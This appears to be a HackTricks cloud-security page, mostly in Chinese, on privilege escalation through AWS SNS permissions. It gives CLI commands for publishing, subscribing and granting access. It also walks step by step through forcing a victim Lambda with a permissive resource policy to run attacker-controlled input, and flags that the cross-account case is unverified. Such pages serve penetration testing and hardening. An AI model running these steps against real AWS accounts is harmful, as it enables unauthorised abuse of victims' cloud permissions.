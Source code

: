 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

更多信息请查看：

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

攻击者可能向 SNS 主题发送恶意或不需要的消息，可能导致数据损坏、触发非预期操作或耗尽资源。
```bash
aws sns publish --topic-arn <value> --message <value>
```
**潜在影响**：漏洞利用、数据损坏、非预期操作或资源耗尽。

### `sns:Subscribe`

攻击者可能会订阅 SNS 主题，从而可能未经授权访问消息，或破坏依赖该主题的应用程序的正常运行。
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**Potential Impact**: 未经授权访问消息（敏感信息），依赖受影响主题的应用可能遭受服务中断。

### `sns:AddPermission`

攻击者可能授予未授权的用户或服务对 SNS 主题的访问权限，从而可能获取更多权限。
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Potential Impact**: 未经授权访问该 topic、消息暴露，或被未授权的用户或服务操纵 topic，导致依赖该 topic 的应用程序正常功能中断。


### 通过滥用通配符 SNS 权限（no `SourceArn`）调用 Lambda

如果 Lambda function 的基于资源的策略允许 `sns.amazonaws.com` 在不限制源 topic（`SourceArn`）的情况下调用它，则任何 SNS topic（即使在另一个账户中）都可以订阅并触发该函数。具有基本 SNS 权限的 attacker 可以强制该 Lambda 在其 IAM role 下执行，并使用 attacker 控制的输入。

> [!TIP]
> TODO：这真的可以在 cross-account 场景下完成吗？

前提条件
- Victim Lambda policy 包含如下声明，且没有 `SourceArn` 条件：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
滥用步骤（同一账户或跨账户）
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**潜在影响**: 受害者 Lambda 使用其 IAM 角色执行，处理攻击者控制的输入。 这可能被滥用，使函数执行敏感操作（例如，写入 S3、访问 secrets、修改资源），具体取决于其权限。


{{#include ../../../../banners/hacktricks-training.md}}
